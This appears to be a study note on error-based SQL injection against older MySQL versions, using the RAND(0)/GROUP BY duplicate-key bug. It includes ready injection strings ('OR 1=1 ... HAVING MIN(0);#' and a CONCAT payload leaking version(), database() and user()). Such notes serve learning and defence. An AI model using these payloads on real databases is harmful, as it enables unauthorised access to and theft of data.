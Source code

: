 ```yaml
---
title: ERROR based (In-band) Injection
tags:
  - security
  - sqli
  - web
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


#### Bug in MySQL
Bug Present in old versions of MySQL  
[MySQL Bugs: 82544](https://bugs.mysql.com/bug.php?id=82544)  

By using seed we are going to generate the same values every time. If the table has at least 3 entries then by rounding the values 2 of they are going to be the same and we can cause the bug

````sql
-- Seed will create the same values very time
SELECT name, RAND(0) 
FROM users; 

-- Column with rounded values
SELECT name, RAND(0), ROUND(RAND(0)) 
FROM users; 

SELECT name 
FROM users 
GROUP BY ROUND(RAND(0));
````

#### Triggering the Bug

````sql
SELECT name 
FROM users 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);

SELECT name, COUNT(*) 
FROM users 
GROUP BY ROUND(RAND(0));
````

The count() approach is mostly useless as the statement till the where clause is going to be fixed by the application we can only control the part that comes after the where clause

````sql
SELECT name 
FROM users 
WHERE username="sagar" OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);
````

#### Getting Information using Bug

````sql
OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);#

OR 1=1 
GROUP BY CONCAT(version(), " ", database(), " ", user(), " ", ROUND(RAND())) HAVING MIN(0);#
````
